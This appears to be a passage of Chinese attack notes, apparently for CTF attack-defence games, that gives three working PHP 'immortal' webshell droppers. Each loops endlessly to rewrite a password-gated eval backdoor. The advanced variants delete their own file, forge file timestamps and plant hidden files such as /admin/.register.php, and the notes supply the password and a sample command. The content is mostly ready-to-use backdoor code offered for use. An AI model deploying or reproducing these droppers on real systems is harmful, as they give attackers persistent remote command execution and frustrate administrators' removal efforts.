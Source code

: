 防连接不死马：

```php
<?php
set_time_limit(0);   // 取消脚本运行时间的超时上限
ignore_user_abort(1);  // 

while(1)
{
    file_put_contents('shell.php','<?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?>');  //创建shell.php
    sleep(0);
}

//passwd=AabyssTeam
//POST传参：passwd=AabyssTeam&cmd=system('ls');
```

进阶不死马：

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = 'shell.php';
$code = '<?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?>';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 09:10:12" shell.php');  //修改时间，防止被删
    usleep(5000);
}
?>

//passwd=AabyssTeam
//POST传参：passwd=AabyssTeam&cmd=system('ls');
```

将这个文件上传到服务器，然后进行访问，会在该路径下一直生成一个名字为 `shell.php` 的WebShell文件

双重不死马：

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '.login.php';
$file1 = '/admin/.register.php'; 
$code = '<?php if(md5($_POST["passwd"])=="8c7d608cbb4c63f32be59a9ba8c9f49d"){@eval($_REQUEST["cmd"]);} ?>';

while (1){
    file_put_contents($file,$code);
    system('touch -m -d "2020-12-01 18:10:12" .login.php');
    file_put_contents($file1,$code);
    system('touch -m -d "2020-12-01 18:10:12" /admin/.register.php');
    usleep(5000);
}
?>

//passwd=AabyssTeam
//POST传参：passwd=AabyssTeam&cmd=system('ls');
```
